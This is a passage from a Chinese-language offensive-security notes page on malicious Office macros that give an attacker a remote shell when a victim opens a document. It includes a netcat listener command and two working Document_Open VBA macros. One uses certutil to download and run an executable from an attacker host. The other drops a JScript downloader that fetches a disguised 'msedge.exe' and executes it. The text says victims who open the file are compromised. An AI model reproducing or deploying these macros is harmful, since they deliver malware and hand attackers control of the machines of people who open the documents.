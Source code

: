 ![image-20240712142736124](http://cdn.ayusummer233.top/DailyNotes/202407121427541.png)

打开该文档机器实现 shell 上线

```bash
nc -lvvp 65521 | while read line; do echo "$(date '+%Y-%m-%d %H:%M:%S') $line";done
```

![image-20240626165505178](http://cdn.ayusummer233.top/DailyNotes/202406261655301.png)

---

### 调用 CMD 使用 Certutil 下载与执行恶意程序

```vbscript
Private Sub Document_Open()
Call Shell(Environ$("COMSPEC") & " /c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe && msedge.exe", vbNormalFocus)
End Sub
```

![image-20240626165543364](http://cdn.ayusummer233.top/DailyNotes/202406261655545.png)

受害者打开此文档后会下载恶意程序并上线 shell

![image-20240626165556298](http://cdn.ayusummer233.top/DailyNotes/202406261656785.png)

![image-20240626165641767](http://cdn.ayusummer233.top/DailyNotes/202406261656847.png)

---

## 调CScript调JSCript/VBScript

```vbscript
Private Sub Document_Open()

    Open "art.jse" For Output As #1
    Print #1, "var url = 'http://100.1.1.131:8000/download/msedge.exe';var network = new ActiveXObject('WScript.Network');var username = network.UserName;var downloadPath = 'C:\\Users\\' + username + '\\AppData\\Local\\Temp\\msedge.exe';var xmlhttp = new ActiveXObject('MSXML2.XMLHTTP');xmlhttp.open('GET', url, false);xmlhttp.send();var stream = new ActiveXObject('ADODB.Stream');stream.Open();stream.Type = 1;stream.Write(xmlhttp.responseBody);stream.Position = 0;stream.SaveToFile(downloadPath, 2); stream.Close();var shell = new ActiveXObject('WScript.Shell');shell.Run(downloadPath);"
    Close #1
    Shell "cscript.exe art.jse"

End Sub
```

受害者打开该文件会下载并上线 shell

![image-20240626170250843](http://cdn.ayusummer233.top/DailyNotes/202406261702961.png)

---
